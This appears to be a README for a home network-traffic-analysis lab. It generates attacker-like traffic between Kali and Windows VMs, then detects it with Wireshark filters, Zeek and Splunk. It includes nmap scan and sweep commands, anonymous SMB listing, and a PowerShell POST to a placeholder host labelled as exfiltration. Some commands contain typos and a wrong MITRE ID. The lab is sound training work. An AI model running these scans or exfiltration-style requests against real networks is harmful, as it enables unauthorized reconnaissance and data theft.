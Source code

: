  ## ⛓ Network Traffic Analysis (Kali + Windows)
 ### Objective
Capture and analyze network traffic for common attacker behaviors (scan, beacon/HTTP exfil, ICMP sweep, SMB touch) and document detections.

### Lab Topology
- Put Kali and Windows on the same **Host-Only** or Internal network in your hypervisor **(Please see Image 1.1 & 1.2 within the Screenshots folder)**.
- Find IPs **(Please see Image 1.3 & 1.4 within the Screenshots folder)**:
   + Kali: `ip a` (note interface like eth0 or ens33)
     + Kali (attacker/analyst): `<KALI_IP>`
   + Windows: `ipconfig`
     + Windows 10 VM (victim): `<WIN_IP>`

### Tools
- tcpdump / Wireshark (packet capture) 
  + **Kali:** **(Please see Image 2 within the Screenshots folder)**
   ```Bash
   sudo apt update
   sudo apt install -y wireshark tcpdump zeek nmap curl
   ```
  + **Windows:** install **Wireshark (optional) and ensure **PowerShell** is available.

    **Note:** capture on Kali (attacker) while you generate traffic between Kali ↔ Windows.
- Zeek (pcap → structured logs)
- (Optional) Splunk (search/visualize Zeek logs)

### First capture
This is the **Baseline** capture.
1. Method 1: On Kali (replace `eth0` with your interface):

```Bash

Sudo tcpdump -i eth0 -w baseline .pcap
```
Leave this running while you generate traffic (next section). Press **Ctrl+C** to stop and write the file.


2.  Using Wireshark (my preffered option) **(Please see Image 2 within the Screenshots folder)**
Start **Wireshark** on Kali → select your interface → click start (blue shar icon) → later click Stop (red square) → Save as `baseline.pcap`. 


### Scenarios
We’ll do 4 useful, resume-worthy scenarios. Run each while capturing (new pcap per scenario), then stop capture after each.

1. Port scan → `scan_windows.pcap` (MITRE T1046)
On **Kali:**

```bash
Sudo nmap -sS -T4 -p 1-1024 <WINDOWS_IP>

```

Save capture as `scan_windows.pcap`.
**MITRE:** Discovery (T1046 - Network Service Discovery)
  
2. HTTP beacon/exfil → `http_exfil.pcap` (T1071.001, T1041)
On **Kali**, start a mini web server:

```bash
pythons -m http.server 8000

```

On Windows (PowerShell), send a fake “beacon/exfil” POST:

```powershell

Invoke-WebRequest -Uri "http://<KALI_IP>:8000/upload" -Method POST -Body "sample=hello&user=victim1"
Start-Sleep -Seconds 5
Invoke-WebRequest -Uri "http://<KALI_IP>:8000/beat"   -Method GET

```

Stop capture → save as `http_exfil.pcap`.
**MITRE:** Command & Control (T1071.001 - Web Protocols), Exfiltration (T1041 - Exfil over C2 channel)

3. ICMP sweep → `icmp_sweep.pcap` (T1018)
On **Kali** (pick your /24):

```bash

sudo nmap -sn <YOUR_SUBNET>/24

```

Save as `icmp_sweep.pcap`.
**MITRE:** Discovery (T108 - Remote System Discovery)

4. SMB touch → `smb_touch.pcap` (T1135)
From **Kali** (non-auth listing may fail harmlessly but still generates traffic):

```bash
smbclient -L //<WINDOWS_IP>/ -N

```
Save as `smb_touch.pcap`.
**MITRE:** Discovery (T1135 - Network Share Discovery), Lateral Movement (surface only)
Tip: Keep pcaps <50-100 MB; if larger, zip them.

### Quick Wireshark Analysis
Open each .pcapng` in Wireshark and use these **display filters:**

**Port scan**
- SYNs without ACKs (half-open):
```ini

tcp.flags.syn==1 && tcp.flags.ack==0

```
- Dest port heatmap: Statistics → Endpoints/Conversations.

**HTTP beacon/exfil**
- HTTP POSTs:
```ini

ip.dst == <KALI_IP> && http

```

- All HTTP to Kali:

```ini

ip.dst == <KALI_IP> && http

```

**ICMP sweep**

```go

icmp && ip.dst==<SUBNET_RANGE> && icmp.type==8

```

**SMB**
```ini

tcp.port==445 || tcp.port==139

```

Export screenshots: flow graphs (Statistics → Flow Graph), packet details, conversation lists.

### Zeek - Powerful logs from pcapng

```bash
mkdir -p ~/zeek_out/scan ~/zeek_out/http ~/zeek_out/icmp ~/zeek_out/smb

zeek -Cr scan_windows.pcap    Log::default_path=~/zeek_out/scan
zeek -Cr http_exfil.pcap      Log::default_path=~/zeek_out/http
zeek -Cr icmp_sweep.pcap      Log::default_path=~/zeek_out/icmp
zeek -Cr smb_touch.pcap       Log::default_path=~/zeek_out/smb

```
You'll get logs like `conn.log`, `http.log`, `ssl.log`, `dns.log` (if present), etc.

**Quick reads**
```bash
# Top 10 destination ports from the scan
cat ~/zeek_out/scan/conn.log | zeek-cut id.resp_p | sort -n | uniq -c | sort -nr | head

# HTTP paths & methods in exfil
cat ~/zeek_out/http/http.log | zeek-cut method host uri | head

# ICMP talkers
cat ~/zeek_out/icmp/conn.log | zeek-cut id.orig_h id.resp_h proto service | grep icmp | head

```
### Splunk the Zeek logs (Optional)
If Splunk is on **Windows VM**, share/copy Zeek logs to Windows (e.g., `C:\lab\zeek\http\...`) and add as a data input:

- Splunk → **Settings → Add Data → Monitor → Files & Directories** → select the Zeek folder.
- Set sourcetype(s) to something like `zeek:conn`, `zeek:http` (or `automatic` to start).

Example searches:
```spl

index=* sourcetype=zeek:conn
| stats count dc(id.resp_p) AS unique_ports BY id.orig_h
| sort -count

```

```spl

index=* sourcetype=zeek:http
| stats count BY method host uri
| sort -count

```
### How to Reproduce
See `reports/NTA_Methodology.md` for exact commands and Wireshark filters.

### Findings
- `reports/Findings_scan.md`
- `reports/Findings_http.md`
- `reports/Findings_icmp.md`
- `reports/Findings_smb.md`

### Evidence
- `pcaps/` (captured traffic)
- `zeek/` (parsed logs)
- `screenshots/` (Wireshark/Splunk)

### Talking point about this project
- Confidentiality: Show exfil attempt over HTTP and how you detected it (Zeek HTTP logs, Wireshark POSTs).

- Integrity: Explain why structured Zeek logs preserve evidence better than raw pcaps alone.

- Availability: Show how scans/sweeps can precede DoS and how you’d baseline normal vs. noisy traffic.
